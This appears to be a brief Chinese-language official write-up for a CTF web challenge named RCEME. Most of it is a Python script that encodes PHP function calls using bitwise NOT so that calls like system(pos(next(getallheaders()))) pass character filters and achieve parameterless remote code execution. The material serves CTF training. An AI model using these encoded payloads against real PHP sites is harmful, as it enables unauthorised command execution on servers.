 # RCEME 官方wp

这里直接丢个exp,考点其实是`[~(异或)][!%FF]`的形式组成字符串,然后无参数RCE

```php
def one(s):
    ss = ""
    for each in s:
        ss += "%" + str(hex(255 - ord(each)))[2:].upper()
    return f"[~{ss}][!%FF]("

"""
组成类似于system(pos(next(getallheaders())));即可
a=whoami
"""
while 1:
    a = input(":>").strip(")")
    aa = a.split("(")
    s = ""
    for each in aa[:-1]:
        s += one(each)
    s += ")" * (len(aa) - 1) + ";"
    print(s)

```

